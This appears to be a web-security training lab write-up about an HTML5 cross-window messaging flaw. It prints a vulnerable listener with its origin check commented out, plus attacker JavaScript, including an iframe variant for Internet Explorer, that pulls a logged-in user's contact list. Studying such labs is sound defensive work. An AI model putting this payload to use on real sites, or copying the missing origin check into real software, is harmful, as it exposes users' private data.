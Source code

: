 # Lab #3 - Attacking HTML5 - 3

After authenticating, the customer can view their contact list by clicking the Contacts button. When you click on the Contacts button, a new tab (with page contacts.php) will be opened in your browser.

![lab3-1](images/lab3-1.png)

Now your browser contains two tabs (referred to as windows):

- One points to the page index.php

- One points to the page contacts.php

The two tabs have a specific relationship; the second has been opened by the first one through a link (HTML tag).

You can find the above tag inside the index.html page:

    <a href="contacts.php" target="_blank"> 
            <b>Contacts</b> 
    </a>
If you inspect the HTML code of the index.html page, you will notice that it can receive cross window messages from other windows. This page makes use of the HTML5 cross window messaging feature and acts as the receiving window.

Code from the index.html page:

    window.addEventListener("message", receiveMessage, false);
        function receiveMessage(event) {
        /* 
        if (event.origin!=secureWebMailDomain) {
            return
        } 
        */ 
        if (event.data=="getContacts") {
            var caller=event.source; 
            caller.postMessage(contactsList,"*");
        } 
    }

If the message received is getContacts, the index.html page will send the object contactsList to the requesting window. This object contains the contact list of the authenticated user that opened the page.

Engineers at SecureWebmail did not check the origin of the requesting window (they have commented out the JavaScript code that performing the origin check), so the page index.html will process all incoming requests, regardless of their origin.

If you inspect the HTML code on the contacts.php page, you will notice that it sends the message getContacts to the index.html window. After that, it waits for a reply and uses the reply to show the contact list to the user.

This page makes use of the HTML5 cross-window messaging feature and acts both as sender and a receiver window.

Code on page contacts.php

    // Code to receive the contact list from the opener window window.addEventListener("message", receiveMessage, false); 
    function receiveMessage(event) {
        var contactsList=JSON.parse(event.data);               fillContactsList(contactsList); 
        } 
    // Code to ask the opener window for the contact window.opener.postMessage("getContacts","*");

You can infer that the page index.html is vulnerable because it processes all of the incoming cross-window messages.

The attacker needs to build a malicious web page within his blog domain (http://attackerrepository.lab.html5.site). After that, he needs to entice his victim into visiting this malicious web page.

Let us assume that the blog of the attacker exists and is available at this address:

    http://attackerrepository.lab.html5.site/crossWindowMessaging/192/index.html
The attacker has included malicious JavaScript which makes use of this cross-window messaging flaw.

This code (below) will steal the user's contact list:

    // Code to ask the opener window for the contact list window.opener.postMessage("getContacts","*");
    // Code to receive the contact list from the opener window window.addEventListener("message", receiveMessage, false); 
    function receiveMessage(event) { 
            var contactsList= JSON.parse(event.data);
            fillContactsList(contactsList); 
    }

To run the attack, it is necessary that:

- The victim has already authenticated to Secure Webmail

- A link to the malicious blog is available in the victim's index.php page. This is necessary because the two windows (the index.php page and the blog page) must have a relationship in order to exchange messages.

The attacker will use the Secure Webmail application to send a message to his victim including the malicious link. Secure Webmail will show the message within the index.php page.

![lab3-2](images/lab3-2.png)

After clicking the link, Carolina visits the blog, and an alarming message will show her contact list to her

![lab3-3](images/lab3-3.png)


## The Internet Explorer exception

The attack will not work in Internet Explorer. Internet Explorer does not allow cross window messages if one of the two windows has been opened by clicking on a link or through the API window.popup. If you try to run the attack, the IE browser will return the error "No such interface."

To bypass this issue, the attacker must include (through an iframe) the index.php page in his blog.

    // Code to include the Secure Webmail site as iframe 
    <iframe id="iFrame" src="<SecureWebmail>/index.php">

Now cross-window messaging must be established between the iframe and its parent (the blog page).

The attacker could use this JavaScript code below to steal the user data using Internet Explorer.

    var iFrame=document.getElementById("iFrame"); 
    // Code to ask the iframe window (index.php) for the contact list iFrame.ContentWindow.postMessage("getContacts","*");
    // Code to receive the contact list from the iframe window 
    window.addEventListener("message", receiveMessage, false);
    function receiveMessage(event) {
        var contactsList=JSON.parse(event.data); 
        fillContactsList(contactsList);
    }